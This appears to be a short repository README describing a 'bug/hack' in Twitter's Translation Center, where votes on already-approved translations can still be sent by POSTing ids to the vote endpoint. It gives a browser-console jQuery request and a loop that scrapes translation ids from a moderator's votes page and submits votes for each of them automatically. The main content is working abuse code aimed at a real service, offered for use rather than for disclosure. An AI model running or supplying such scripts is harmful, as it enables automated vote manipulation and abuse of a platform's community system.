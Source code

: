 # Twitter Translation Center Bug/Hack

**Twitter Translation Center Bug/Hack**

After analyzing the voting system of the TTC,

I noticed that the sending of the voting request was done through the POST method in the url 

```https://translate.twitter.com/translations/vote``` each translation has an id with 8 digits

When the translation is already approved, the only thing they do is hide The button, 

that's when I realized that if I take the id of this approved translation and send it with the POST method the vote would be confirmed

**Ex:**

To send I used the Browser Console, you can find by pressing the "f12"

``` 
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=12345678',
});
```

#It's working!
After my theory was confirmed, I decided to automate the procedure.

If you join the profile of a TCC moderator, you may note that in the "Votes" or "Translations" area 

they will contain translations and votes already approved by this moderator..

*Ex:*

```
https://translate.twitter.com/user/MODERATOR/votes
```
With the help of JavaScript

I was able to extract the ID's of the approved translations and send them via POST as a normal voting day

```
var c = document.getElementsByClassName("toggle").length;
for (i = 0; i < c; i++){
	var id = (document.getElementsByClassName("toggle").item(i).getAttribute("data-id"));	
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=' + id ,
});
console.log('foi ' + id);
}
```

![alt tag](http://url/to/img.png)
